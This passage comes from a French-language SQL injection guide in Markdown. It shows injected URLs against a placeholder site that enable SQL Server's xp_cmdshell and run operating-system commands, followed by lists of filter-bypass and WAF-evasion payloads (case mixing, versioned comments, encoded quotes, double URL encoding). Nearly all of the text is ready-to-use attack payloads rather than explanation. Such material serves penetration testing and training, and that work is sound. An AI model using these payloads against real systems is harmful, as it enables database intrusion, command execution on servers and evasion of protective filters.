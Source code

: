 ### Méthode 2 : UDF (User Defined Functions)
```sql
-- Créer une fonction personnalisée pour exécuter des commandes
-- Complexe mais très puissant sur MySQL
```

### Méthode 3 : xp_cmdshell (SQL Server)
```sql
-- Activer xp_cmdshell
http://target.com/page.php?id=1'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;--

-- Exécuter des commandes
http://target.com/page.php?id=1'; EXEC xp_cmdshell 'whoami';--
```

## 🎯 Techniques de Bypass

### Bypass de Filtres Basiques
```sql
-- Bypass de mots-clés interdits
-- Au lieu de UNION SELECT
UnIoN sElEcT
/*!50000UNION*/ /*!50000SELECT*/
UNION/**/SELECT

-- Bypass d'espaces
UNION/**/SELECT
UNION%20SELECT
UNION+SELECT
UNION%0ASELECT

-- Bypass de quotes
-- Au lieu de 'admin'
CHAR(97,100,109,105,110)
0x61646D696E
```

### Bypass WAF Avancé
```sql
-- Double encodage URL
%2527 au lieu de '
%252F au lieu de /

-- Commentaires
/*!50000UNION*/ /*!50000SELECT*/
/*! UNION */ /*! SELECT */

-- Fonctions alternatives
-- Au lieu de SUBSTRING
MID(), LEFT(), RIGHT()

-- Au lieu de ASCII
ORD()
```
